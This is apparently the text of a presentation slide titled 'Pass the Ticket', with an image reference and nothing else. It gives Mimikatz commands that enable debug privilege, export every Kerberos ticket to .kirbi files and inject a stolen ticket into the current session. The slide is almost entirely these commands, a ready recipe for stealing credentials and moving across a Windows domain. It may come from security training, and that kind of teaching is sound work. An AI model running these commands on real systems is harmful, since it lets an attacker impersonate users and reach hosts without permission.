

Pass the Ticket
privilege::debug
kerberos::list /export
#this export all tickets to .kirbi files on the current folder
kerberos::ptt c:\TGTuser1.kirbi